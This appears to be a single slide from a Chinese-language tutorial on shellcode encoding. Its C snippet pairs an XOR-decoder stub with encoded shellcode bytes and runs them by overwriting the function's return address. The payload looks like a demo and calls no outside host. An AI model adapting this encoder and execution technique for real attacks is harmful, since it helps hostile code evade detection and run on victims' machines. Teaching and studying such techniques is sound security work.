

后面跟上任意的编码后的shellcode形成完整的可利用的shellcode
| #include <stdio.h> #include <windows.h> char ourshellcode[]="\xE8\x00\x00\x00\x00\x58\x83\xC0\x15\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x90\x75\xF1\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4"; void main() { LoadLibrary("user32.dll"); int \*ret; ret=(int\*)&ret+2; (\*ret)=(int)ourshellcode; return; } |
| --- |